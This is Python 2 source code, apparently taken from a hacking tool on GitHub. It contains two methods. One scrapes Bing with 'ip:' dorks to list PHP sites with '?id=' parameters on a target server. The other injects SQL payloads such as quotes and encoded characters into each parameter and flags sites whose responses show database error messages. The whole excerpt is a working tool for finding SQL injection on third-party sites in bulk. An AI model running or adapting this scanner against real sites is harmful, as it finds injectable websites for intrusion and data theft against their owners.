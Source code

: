     def grabSqli(self):
        '''
        just grabs all websites in server with php?id= dork
        for scanning for error based sql injection
        '''
        page = 1
        lista = []
        while page <= 101:
            try:
                bing = "http://www.bing.com/search?q=ip%3A" + \
                    self.serverip + "+php?id=&count=50&first=" + str(page)
                openbing = urllib2.urlopen(bing)
                readbing = openbing.read()
                findwebs = re.findall('<h2><a href="(.*?)"', readbing)
                for i in range(len(findwebs)):
                    x = findwebs[i]
                    lista.append(x)
            except:
                pass
            page += 50
        lista = unique(lista)
        self.checkSqli(lista)

    def checkSqli(self, s):
        '''
        checks for error based sql injection,
        most of the codes here are from webpwn3r
        project the one who has found an lfi in
        yahoo as i remember, you can find a separate
        tool in my blog
        '''
        clearScr()
        print "[~] Checking SQL injection"
        payloads = ["3'", "3%5c", "3%27%22%28%29", "3'><",
                    "3%22%5C%27%5C%22%29%3B%7C%5D%2A%7B%250d%250a%3C%2500%3E%25bf%2527%27"]
        check = re.compile(
            "Incorrect syntax|mysql_fetch|Syntax error|Unclosed.+mark|unterminated.+qoute|SQL.+Server|Microsoft.+Database|Fatal.+error", re.I)
        for url in s:
            try:
                for param in url.split('?')[1].split('&'):
                    for payload in payloads:
                        power = url.replace(param, param + payload.strip())

                        html = urllib2.urlopen(power).readlines()
                        for line in html:
                            checker = re.findall(check, line)
                            if len(checker) != 0:
                                print ' [*] SQLi found -> ', power
            except:
                pass
